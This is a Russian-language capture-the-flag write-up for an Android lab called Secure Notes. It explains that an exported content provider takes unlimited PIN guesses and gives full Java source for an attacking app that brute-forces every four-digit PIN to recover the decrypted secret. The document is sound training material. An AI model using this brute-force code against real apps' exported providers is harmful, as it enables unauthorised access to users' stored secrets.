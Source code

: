Задание - [Secure Notes - Android Content Provider Challenge](https://www.mobilehackinglab.com/path-player?courseid=lab-secure-notes&unit=65590c1dc3e1483ad00af510Unit)

**Работа MainActivity:**

Приложение ожидает ввод пин-кода:

![alt text](assets/securenoteswriteup1.png)


После ввода пин-кода, делается запрос к контент-провайдеру в методе `querySecretProvider` по URI, равному: `content://com.mobilehackinglab.securenotes.secretprovider` 
и selection аргументом, равным `pin=PIN`, где PIN - это введенный пользователем пин-код. После получения результата запроса, проверяется индекс колонки `Secret`, и если оно не равно null и -1, то извлекает ее значение (видимо флаг), в противном случае выводит текст `[ERROR: Incorrect PIN]`. Код этого метода:

![alt text](assets/securenoteswriteup2.png)

**Работа SecretDataProvider**

Полученный пин-код используется для создания ключа для расшифровки секрета (`key = pin + salt`) алгоритмом AES CBC. Все остальные необходимые данные (iv, salt, inetCount, encyptedSecret) хранятся в `assets/config.properties`:

![alt text](assets/securenoteswriteup3.png)

`MatrixCursor` создает столбец `Secret` только в том случае, когда расшифровка `encyptedSecret` прошла успешно, т.е. метод `decryptSecret(String pin)` вернет не null:

![alt text](assets/securenoteswriteup4.png)

Уязвимость состоит в том, что контент провайдер является экспортируемым и никак не проверяет количество попыток ввода пин-кода, так что пин-код из 4х цифр можно достаточно быстро перебрать с помощью атакующего приложения, либо локально извлечь все значения для расшифровки и просмотреть полученные значения (важно отметить, что результат, не равный null будет получатся во многих случаях, т.к. расшифрованный текст переводится в кодировку UTF-8, поэтому необходимо просмотреть все полученные варианты). 

Для решения было реализовано атакующее приложение, результат его работы:

![alt text](assets/securenoteswriteup5.png)

Проверка пин-кода:

![alt text](assets/securenoteswriteup6.png)

Код `MainActivity` атакующего приложения:
```java
public class MainActivity extends AppCompatActivity {  
  
    private static final String CONTENT_URI = "content://com.mobilehackinglab.securenotes.secretprovider";  
    private TextView resultView;  
    private Button bruteForceButton;  
  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
        EdgeToEdge.enable(this);  
        setContentView(R.layout.activity_main);  
  
        resultView = findViewById(R.id.resultView);  
        bruteForceButton = findViewById(R.id.bruteForceButton);  
  
        bruteForceButton.setOnClickListener(v -> {  
            bruteForceButton.setEnabled(false);  
            new BruteForceTask().execute();  
        });  
    }  
  
    private class BruteForceTask extends AsyncTask<Void, String, List<String>> {  
        @Override  
        protected List<String> doInBackground(Void... voids) {  
            List<String> foundSecrets = new ArrayList<>();  
  
            for (int pin = 0; pin <= 9999; pin++) {  
                String formattedPin = String.format("%04d", pin);
                String secret = querySecretProvider(formattedPin);  
  
                if (secret != null) {
                    foundSecrets.add("PIN: " + formattedPin + " → Secret: " + secret);  
                    publishProgress("Found: " + formattedPin + " → " + secret);  
                }  
            }  
            return foundSecrets;  
        }  
  
        @Override  
        protected void onProgressUpdate(String... values) {  
            resultView.append(values[0] + "\n");  
        }  
  
        @Override  
        protected void onPostExecute(List<String> results) {  
            if (results.isEmpty()) {  
                resultView.setText("Bruteforce finished. No valid PINs found.");  
            } else {  
                resultView.append("\nBruteforce completed.");  
            }  
            bruteForceButton.setEnabled(true);  
        }  
    }  
  
    private String querySecretProvider(String pin) {  
        Uri uri = Uri.parse(CONTENT_URI);  
        String selection = "pin=" + pin;  
  
        try (Cursor cursor = getContentResolver().query(uri, null, selection, null, null)) {  
            if (cursor != null && cursor.moveToFirst()) {  
                int columnIndex = cursor.getColumnIndex("Secret");  
                if (columnIndex != -1) {  
                    return cursor.getString(columnIndex);  
                }  
            }  
        } catch (Exception e) {  
            e.printStackTrace();  
        }  
        return null;  
    }  
}
```